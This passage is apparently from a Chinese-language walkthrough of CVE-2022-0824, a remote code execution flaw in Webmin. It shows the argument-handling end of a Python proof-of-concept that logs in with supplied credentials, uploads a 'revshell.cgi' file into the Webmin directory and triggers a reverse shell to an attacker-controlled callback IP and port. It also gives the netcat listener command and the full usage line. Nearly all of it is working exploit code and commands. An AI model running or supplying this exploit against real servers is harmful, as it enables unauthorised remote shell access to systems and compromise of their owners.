 ```python
    parser.add_argument('-P', '--callback_port', type=str, required=True, help=' Callback port to receive revshell')
    parser.add_argument("-V",'--version', action='version', version='%(prog)s 1.0')
    args = parser.parse_args()

    target = args.target
    username = args.credential.split(':')[0]
    password = args.credential.split(':')[1]
    py3http_server = args.py3http_server
    pyhttp_port = py3http_server.split(':')[1]
    callback_ip = args.callback_ip
    callback_port = args.callback_port
    upload_path = "/usr/share/webmin"
    fname = "revshell.cgi"

    pwn = Exploit(target, username, password, py3http_server, pyhttp_port, upload_path, callback_ip, callback_port, fname)
    pwn.run()
```

**开启kali监听9999端口**

```
nc -lvp 9999
```

<img src="CVE-2022-0824-webmin%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20230215153502868.png" alt="image-20230215153502868" style="zoom:67%;" />

**使用poc**

```
python3 /path/poc.py -t http://目标 -c 用户名:密码 -LS KALIIP:9090 -L KALIIP -P 监听端口
```
